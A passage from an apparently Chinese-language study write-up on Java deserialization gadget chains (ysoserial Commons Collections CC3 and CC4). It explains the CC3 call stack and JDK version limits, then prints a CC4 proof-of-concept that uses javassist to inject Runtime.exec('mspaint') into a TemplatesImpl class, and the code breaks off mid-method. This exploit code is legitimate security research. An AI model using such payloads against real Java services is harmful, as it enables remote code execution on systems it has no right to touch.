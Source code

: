	    public static void main(String[] args)throws Exception {
	        Object payload = getPayload();
	        SerialUtil.runPayload(payload);
	    }
	}

调用栈如下所示：

![CC3调用栈][p12]

和CC1一样，利用了AnnotationInvocationHandler，所以需要JDK Version<=JDK8u66。此外，此链中与CC2不同的是， **利用InstantiateTransformer调用TrAXFilter的构造器，触发TemplatesImpl#newTransformer()** 。

### CC4
给出POC入下所示：

	package com.pinger.javasec.ysoserial;
	
	import com.pinger.javasec.util.SerialUtil;
	import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
	import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
	import javassist.ClassClassPath;
	import javassist.ClassPool;
	import javassist.CtClass;
	import org.apache.commons.collections4.Transformer;
	import org.apache.commons.collections4.functors.ChainedTransformer;
	import org.apache.commons.collections4.functors.ConstantTransformer;
	import org.apache.commons.collections4.functors.InstantiateTransformer;
	import org.apache.commons.collections4.comparators.TransformingComparator;
	import javax.xml.transform.Templates;
	import java.lang.reflect.Field;
	import java.util.PriorityQueue;
	
	/**
	 * @author : p1n93r
	 * @date : 2021/4/1 21:54
	 * CC4 Gadget研究
	 * 和CC2一样，就是将CC2中的InvokerTransformer换成ChainedTransformer
	 */
	public class CC4 {
	
	
	    public static Object getPayload() throws Exception{
	        String abstractTransletClassPath = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
	
	        // 使用javassist生成一个恶意的类
	        ClassPool classPool = ClassPool.getDefault();
	        classPool.insertClassPath(new ClassClassPath(CC2.Placeholder.class));
	        classPool.insertClassPath(new ClassClassPath(Class.forName(abstractTransletClassPath)));
	
	        CtClass placeholder = classPool.get(CC2.Placeholder.class.getName());
	        placeholder.setSuperclass(classPool.get(Class.forName(abstractTransletClassPath).getName()));
	        // 这里insertBefore还是After都一样，反正都是在静态初始化块里写代码
	        placeholder.makeClassInitializer().insertBefore("java.lang.Runtime.getRuntime().exec(\"mspaint\");");
	        placeholder.setName("EvalClass");
	        // 得到恶意类的字节码
	        byte[] evalByte = placeholder.toBytecode();
	